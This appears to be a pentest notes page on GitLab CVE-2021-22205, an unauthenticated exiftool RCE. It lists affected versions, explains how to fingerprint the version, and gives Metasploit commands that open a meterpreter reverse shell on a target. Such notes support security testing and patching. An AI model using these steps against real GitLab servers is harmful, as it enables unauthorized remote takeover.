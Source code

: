 # Gitlab - Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Try to find the version of Gitlab

First of all, before trying to exploit the rce, try to find the version of gitlab. 

- **Authenticated**: the version can often be found on `/help` endpoint with authenticated account.
    
    ![](imgs/gitlab_version.png)
    
- **Unauthenticated**: with recent version the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    ![](imgs/gitlab_approximative_version.png)
    
### Step 2: Setup metasploit
    
This RCE technique is available on metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```

### Enjoy your shell

After running the metasploit module, if gitlab is vulnerable you will have an meterpreter session.

![](imgs/metasploit_gitlab_rce.png)


## References

[Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
[Hackerone report](https://hackerone.com/reports/1154542)  
[Gitlab issue](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  